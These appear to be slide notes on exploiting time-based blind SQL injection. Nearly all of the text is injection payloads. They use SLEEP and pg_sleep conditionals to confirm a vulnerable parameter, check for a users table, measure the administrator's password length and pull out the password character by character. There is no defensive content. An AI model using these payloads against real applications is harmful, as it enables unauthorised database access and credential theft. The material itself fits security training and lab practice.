

Exploiting blind SQL injection by triggering time delays(time based):
Quary:::select tracking_id from tracking_table where trackingID='shjfhsjf' || (select sleep(10))--';
Payload:: ' || (SELECT SLEEP(10))—
1.Confirm that parameter is vulnerable:
	paylaod:' || (SELECT pg_sleep(10))--
		' || pg_sleep(10)--
2.Confirm that users table exist on database:
	' || (select case when (1=1) then pg_sleep(10) else pg_sleep(-1) end)--
	' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--
3.Enumerating password length:
	payload: ' || (select case when (username='administrator' and LENGTH(password)>1) then pg_sleep(10) else pg_sleep(-1) end from users)--

4.Find password:
	payload: ' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--